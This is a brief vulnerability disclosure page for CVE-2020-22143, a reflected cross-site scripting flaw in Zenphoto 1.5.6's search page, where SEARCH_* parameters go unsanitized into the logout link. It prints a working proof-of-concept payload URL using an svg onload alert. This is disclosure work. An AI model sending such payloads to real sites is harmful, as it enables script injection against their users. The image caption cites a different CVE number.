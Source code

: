 ```yaml
---
cve: "CVE-2020-22143"
title: "Reflected XSS in Zenphoto v1.5.6 and prior"
images: [/images/cve-mitre.png]
date: 2020-02-09
tags:
- cve
- xss
---
```

A cross site scripting (XSS) vulnerability in `/page/search/` of Zenphoto 1.5.6 allows attackers to execute arbitrary web scripts or HTML.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22143
- public announcement: https://github.com/zenphoto/zenphoto/issues/1262

<hr />

**Description:**  
The parameters `SEARCH_*` are not sanitized when displayed in the logout link in the search page when the user is connected.

**Payload:**  
```/page/search/?SEARCH_xxx=xxx"></div><u><svg/onload=alert(1)>xxx```

**PoC:**  
![cve-2020-2996 Zenphoto xss](/images/cve-2020-22143.png)
